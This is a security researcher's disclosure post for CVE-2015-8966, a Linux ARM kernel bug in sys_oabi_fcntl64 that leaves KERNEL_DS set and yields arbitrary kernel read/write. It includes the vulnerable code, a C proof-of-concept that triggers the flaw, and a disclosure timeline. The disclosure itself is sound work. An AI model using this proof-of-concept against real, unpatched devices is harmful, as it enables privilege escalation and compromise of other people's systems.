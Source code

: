 ```yaml
---
layout: post
title:  "Disclosure of AndroidID-31435731"
date:   2016-12-05 21:13:34 +0800
---
```


This issue has been released in the [December](https://source.android.com/security/bulletin/2016-12-01.html) 2016 Android Security Bulletin.

I found it occasionlly Nov 2015. The root problem is very simple and clear, but it can lead privilege escalation easily.

It seems that this issue is not the first time to be discussed. So there is just an old CVE number(CVE-2015-8966) assigned to it, not a new one. 

## 0x1 Analysis
The security bug exists in legacy syscall "fcntl64" of ARM architecture. The details as follow:

asmlinkage long sys_oabi_fcntl64(unsigned int fd, unsigned int cmd,
				 unsigned long arg){
	
	struct oabi_flock64 user;
	struct flock64 kernel;
	mm_segment_t fs = USER_DS; /* initialized to kill a warning */
	unsigned long local_arg = arg;
	int ret;

	switch (cmd) {
	case F_OFD_GETLK:
	case F_OFD_SETLK:
	case F_OFD_SETLKW:
	case F_GETLK64:
	case F_SETLK64:
	case F_SETLKW64:
		if (copy_from_user(&user, (struct oabi_flock64 __user *)arg,
				   sizeof(user)))
			return -EFAULT;
		kernel.l_type	= user.l_type;
		kernel.l_whence	= user.l_whence;
		kernel.l_start	= user.l_start;
		kernel.l_len	= user.l_len;
		kernel.l_pid	= user.l_pid;
		local_arg = (unsigned long)&kernel;
		fs = get_fs();
		set_fs(KERNEL_DS);          //[1]
	}

	ret = sys_fcntl64(fd, cmd, local_arg);

	switch (cmd) {
	case F_GETLK64:
		if (!ret) {
			...
		}
	case F_SETLK64:
	case F_SETLKW64:
		set_fs(fs);     //[2]
	}
	return ret;

 At point [1], the KERNEL_DS is set directly. And it tries to set back at point [2]. If the cmd is one of "{F\_OFD\_GETLK, F\_OFD\_SETLK, F\_OFD\_SETLKW}", the USER_DS will not set back at point [2]. So it can gain the ability of arbitrary kernel read/write, which can lead privilege escalation. 

## 0x2 Proof Of Concept
The poc code as follow:

	__attribute__((naked)) long sys_oabi_fcntl64(unsigned int fd, unsigned int cmd, unsigned long arg){
		__asm __volatile (
		"swi	0x9000DD\n"
		"mov	pc, lr\n"
		:   
		:
		:
	);
	}

	#define F_OFD_GETLK	36
	#define F_OFD_SETLK	37
	#define F_OFD_SETLKW 38

	int main(int argc, char const *argv[]){
		int fd = open("/proc/cpuinfo", O_RDONLY);
		struct flock *map_base = 0;

		if(fd == -1){
			perror("open");
			return -1;
		}
		map_base = (struct flock *)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
		if(map_base == (void*)-1){
			perror("mmap");
			goto _done;
		}
		printf("map_base %p\n", map_base);
		memset(map_base, 0, 0x1000);
		map_base->l_start = SEEK_SET;
		if(sys_oabi_fcntl64(fd, F_OFD_GETLK, (long)map_base)){
			perror("sys_oabi_fcntl64");
		}
		// Arbitrary kernel read/write test
		if(try_to_read_kernel()){
			printf("pwnned !\n");
		}
		munmap(map_base, 0x1000);
	_done:
		close(fd);
		return 0;
	}
	
This vulnerability exists in kernel from 3.15 to 4.3. It only impacts Android kernel 3.18.

## 0x3 Timeline
Sep 10, 2016 - reported the issue to Kernel Security

Sep 15, 2016 - Kernel Security prepared to fix it in next round of stable kernels

------------------------
Sep 10, 2016 - reported the issue to Google after tested on goldfish 3.18

Sep 12, 2016 - Google reviewed the issue and set the severity to Critical

Oct 04, 2016 - Google determined that this issue does not impact any Google devices

Dec 05, 2016 - released in December 2016 Android Security Bulletin